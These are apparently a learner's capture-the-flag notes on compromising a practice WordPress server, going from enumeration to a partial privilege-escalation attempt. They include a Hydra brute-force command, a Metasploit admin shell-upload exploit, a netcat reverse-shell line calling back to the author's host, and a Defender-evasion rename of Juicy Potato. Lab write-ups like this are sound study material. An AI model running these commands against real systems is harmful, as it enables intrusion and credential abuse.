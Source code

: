 # 10.10.10.29

---

## nmap -sS -sC -sV -O -oX ./nmap/init.xml 10.10.10.29

```
80/tcp   open  http    Microsoft IIS httpd 10.0
3306/tcp open  mysql   MySQL (unauthorized)
```

---

## Let's check the website

Burp doesn't give anything useful. The site is just a huge PNG with a link attached to it.

Source and Cookies doesn't have any surprises either. Next is gobuster.

---

## gobuster -u 10.10.10.29 -w ./../SecLists-2021.2/Discovery/Web-Content/common.txt dir

Reveals `/wordpress`. Is accessible.

---

## Let's explore the site

There is a `index.php` handling the linkage.

There are some data files for things like comments(?). They don't reveal any secret links in the backend.

---

## There is an admin account in the system.

Blog posts seems to be signed uder `admin`.

But trying to reach `http://10.10.10.29/wordpress/index.php/author/admin/` fails and returns:
```
DAEMONIZE: pcntl_fork() does not exists, moving on...
SOC_ERROR: 10061: No connection could be made because the target machine actively refused it.
```

---

## There is a login page for `Wordpress`.

There is a cookie.

wordpress_test_cookie = WP+Cookie+check

Seems to be a dummy cookie. We may not need to enumerate the cookie or temper with it.

---

## Trying to log in with random values.

Burp found these in the package:
```
log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1
```
testcookie=1 might be preventing us from actually sending in a valid login request.

---

## Sending the request with testcookie=0 doesn'T return anything different.

---

## There is a password reset link.

Trying to reset `admin` password fails due to:
```
The email could not be sent.
Possible reason: your host may have disabled the mail() function.
```

What is mail() function? Missing library in the backend? Disabled API functionality?

---

## Brute forcing the login with Hydra

++ [Helper Blog](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

Can `redirect_to` be manipulated for fun stuff?

Command to run:
```
hydra -l admin -P ./../SecLists-2021.2/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt 10.10.10.29 http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:ERROR"
```

This was fabricated from the examining the requests through both Dev Tools and Burp. I am not %100 sure about the `ERROR` part however.

---

## In the mean time I looked into MySql port.

I am not able to connect and with some digging around it should have been obvious from the beginning. `(Unauthorized)` means my IP is not allowed to connect to the server.

I probably need local access which is where admin account and access comes into play I am guessing.

++ [Source](https://security.stackexchange.com/questions/134873/what-mysql-unauthorized-french-means-when-perfoming-nmap-in-port-3306)

---

## Walkthrough exposes the password to be `P@s5w0rd!`

I don't like using the passwords gained from previous machines but whatever.

We are in and next step is to get a shell up and running.

Metasploit has an exploit in store so moving on with that.

---

## Using Metasploit to get netcat binary on the target.

Commands to run:
```
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```

It didn't open up a session however.

How the hell do I connect and run a remote .exe?

Also `msf >` does not recognize `lcd` command.

---

## After some fixes the exploit works.

We navigate to a writeable folder at `C:/inetpub/wwwroot/wordpress/wp-content/uploads`

We upload `Netcat` on the target machine.

We setup a listener locally and run the uploaded program.
```
msf > execute -f nc.exe -a "-e cmd.exe 10.10.16.100 4443"
```

---

## Remote Netcat does not work.

What's better is that `sysinfo` returns `Windows NT SHIELD 10.0 build 14393 (Windows Server 2016) i586` but the command line only accepts unix commands.

It does not recognize Window commands.

---

## Next step is to exploit with a local binary.

[Rotten Potato](https://github.com/ohpe/juicy-potato) exploit can be uploaded onto the server and we can try to run it.

But the `js.exe`(Renamed for Defender bypass) is not recognized as an executeable.

Using `execute -f` creates a process but `shell.bat` that `js.exe` is spouse to run never connects back to our local listener.

```
execute -f js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
Process 4808 created.
```

---

I am out of time and this is it for now.